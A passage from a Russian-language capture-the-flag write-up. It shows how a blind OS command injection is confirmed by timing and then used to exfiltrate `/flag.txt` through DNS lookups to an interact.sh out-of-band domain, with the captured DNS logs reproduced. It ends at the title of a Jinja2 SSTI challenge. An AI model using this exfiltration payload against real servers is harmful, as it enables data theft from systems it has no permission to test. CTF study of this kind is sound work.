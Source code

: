 Оба ответили через ~5 секунд, для уверенности ставим все 20 секунд - мы заинъектили команду ОС, но есть плохая новость - мы не видим результат выполнения. Почитав про слепые инъекции команд ОС вы быстро дойдете, что в нашем случае нужно поймать запросы, которые делаются с сервера приложения. Для этого можно использовать сервис [interact.sh](https://app.interactsh.com) (в бурп про есть встроенный генератор доменов для ловли out-of-band взаимодействия, называется collaborator)

Заходим на interact.sh, получаем домен, например, `ldqxylxjewhzremushatgey3eqkuza38b.oast.fun` и пробуем теперь получить его адрес:
```
206.189.156.69
```

На interact.sh видим, что кто-то постучался на домен и сервис ответил:
```
;; opcode: QUERY, status: NOERROR, id: 32284
;; flags: qr aa cd; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 2

;; QUESTION SECTION:
;ldqxylxjewhzremushatgey3eqkuza38b.oast.fun.	IN	 A

;; ANSWER SECTION:
ldqxylxjewhzremushatgey3eqkuza38b.oast.fun.	3600	IN	A	206.189.156.69

;; AUTHORITY SECTION:
ldqxylxjewhzremushatgey3eqkuza38b.oast.fun.	3600	IN	NS	ns1.oast.fun.
ldqxylxjewhzremushatgey3eqkuza38b.oast.fun.	3600	IN	NS	ns2.oast.fun.

;; ADDITIONAL SECTION:
ns1.oast.fun.	3600	IN	A	206.189.156.69
ns2.oast.fun.	3600	IN	A	206.189.156.69
```

Теперь пробуем вставить наш заветный `cat /flag.txt`:
```
`cat /flag.txt`.ldqxylxjewhzremushatgey3eqkuza38b.oast.fun
```

Смотрим на interact.sh:
```
;; opcode: QUERY, status: NOERROR, id: 18878
;; flags: qr aa cd; QUERY: 1, ANSWER: 1, AUTHORITY: 2, ADDITIONAL: 2

;; QUESTION SECTION:
;UCTF{jpMTHCIgbJY1FH6UI8heZSX1ZNxrW7M2}.ldqxylxjewhzremushatgey3eqkuza38b.oast.fun.	IN	 A

;; ANSWER SECTION:
UCTF{jpMTHCIgbJY1FH6UI8heZSX1ZNxrW7M2}.ldqxylxjewhzremushatgey3eqkuza38b.oast.fun.	3600	IN	A	206.189.156.69

;; AUTHORITY SECTION:
UCTF{jpMTHCIgbJY1FH6UI8heZSX1ZNxrW7M2}.ldqxylxjewhzremushatgey3eqkuza38b.oast.fun.	3600	IN	NS	ns1.oast.fun.
UCTF{jpMTHCIgbJY1FH6UI8heZSX1ZNxrW7M2}.ldqxylxjewhzremushatgey3eqkuza38b.oast.fun.	3600	IN	NS	ns2.oast.fun.

;; ADDITIONAL SECTION:
ns1.oast.fun.	3600	IN	A	206.189.156.69
ns2.oast.fun.	3600	IN	A	206.189.156.69
```
## bachira
### tl;dr
RCE over Jinja2 SSTI
### solution